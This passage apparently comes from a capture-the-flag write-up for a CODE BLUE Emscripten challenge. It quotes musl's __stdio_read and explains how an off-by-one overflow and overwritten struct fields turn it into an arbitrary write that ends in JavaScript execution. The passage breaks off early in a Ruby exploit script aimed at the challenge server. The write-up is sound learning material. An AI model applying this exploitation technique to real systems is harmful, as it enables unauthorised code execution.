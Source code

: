 Hmm, `__stdio_read` looks interesting...  
Let's check [its implementation](https://github.com/kripken/emscripten/blob/3c4bc8e8ecb696e5a928bf96c59ff1a8256a9611/system/lib/libc/musl/src/stdio/__stdio_read.c):
```c
#include "stdio_impl.h"
#include <sys/uio.h>

size_t __stdio_read(FILE *f, unsigned char *buf, size_t len)
{
    struct iovec iov[2] = {
        { .iov_base = buf, .iov_len = len - !!f->buf_size },
        { .iov_base = f->buf, .iov_len = f->buf_size }
    };
    ssize_t cnt;

    cnt = syscall(SYS_readv, f->fd, iov, 2);
    if (cnt <= 0) {
        f->flags |= F_EOF ^ ((F_ERR^F_EOF) & cnt);
        return cnt;
    }
    if (cnt <= iov[0].iov_len) return cnt;
    cnt -= iov[0].iov_len;
    f->rpos = f->buf;
    f->rend = f->buf + cnt;
    if (f->buf_size) buf[len-1] = *f->rpos++;
    return len;
}
```
Since we directly control the second and the third argument, we can use this function as an arbitrary-write primitive.

### Exploit!

We can exploit this service in 4 steps:

1. Exploit the off-by-one buffer overflow bug and make chunks overlapping.
2. Overwrite existing letter:
    * `length`: `len("some Javascript code") + 1` (we need a null byte)
    * `filter`: 5 (`__stdio_read`)
    * `buf`: 0xff8 (address of `"_do_post_letters()"` string)
3. Call `__stdio_read` by sealing letters, and input some Javascript code.
4. Our code will be executed via `emscripten_run_script`.

Here is my exploit:
```ruby
#coding:ascii-8bit
require "pwnlib"  # https://github.com/Charo-IT/pwnlib

remote = ARGV[0] == "r"
if remote
  host = "pwn1.task.ctf.codeblue.jp"
  port = 31337
else
  host = "localhost"
  port = 54321
end

class PwnTube
  def recv_until_prompt
    recv_until("Select:\n")
  end
end

def tube
  @tube
```